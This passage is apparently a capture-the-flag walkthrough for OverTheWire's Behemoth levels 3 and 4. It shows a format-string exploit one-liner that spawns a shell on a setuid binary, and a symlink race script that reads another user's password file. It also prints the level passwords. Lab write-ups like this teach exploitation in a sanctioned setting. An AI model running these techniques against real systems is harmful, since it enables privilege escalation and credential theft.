 ```nasm
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
[Inferior 1 (process 18577) exited normally]
```

Looks good ! Let's do the same outside GDB :

```bash
behemoth3@behemoth:/behemoth$ /tmp/find_addr SHELLCODE
SHELLCODE is at 0xffffde75
behemoth3@behemoth:/behemoth$ (python -c 'print "\xac\x97\x04\x08\xae\x97\x04\x08%56941x%1$hn%8586x%2$hn"';cat) | ./behemoth3
whoami
behemoth4
cat /etc/behemoth_pass/behemoth4
ietheishei
```

## Behemoth 04 Solution

**SSH :** *ssh behemoth4@narnia.labs.overthewire.org -p 2221*<br/>
**Pass :** *ietheishei*

Once again, I *ltrace* the code :

```bash
behemoth4@behemoth:/behemoth$ ltrace ./behemoth4
__libc_start_main(0x804857b, 1, 0xffffd764, 0x8048640 <unfinished ...>
getpid()                                                                       = 18680
sprintf("/tmp/18680", "/tmp/%d", 18680)                                        = 10
fopen("/tmp/18680", "r")                                                       = 0
puts("PID not found!"PID not found!
)                                                         = 15
+++ exited (status 0) +++
```

The code create a file with the *PID* and read it back. Of course, it the file does not exist we get an error. Here, we could pause the process right after it starts, create a symlink to the password with the **PID** as name and resume the process to get the password. If found a piece of code online to do that :

```bash
/behemoth/behemoth4&
PID=$!
kill -STOP $PID
ln -s /etc/behemoth_pass/behemoth5 /tmp/$PID
kill -CONT $PID
echo $PID
```

Run it !

```bash
behemoth4@behemoth:/behemoth$ /tmp/test.sh
18729
behemoth4@behemoth:/behemoth$ Finished sleeping, fgetcing
aizeeshing
```
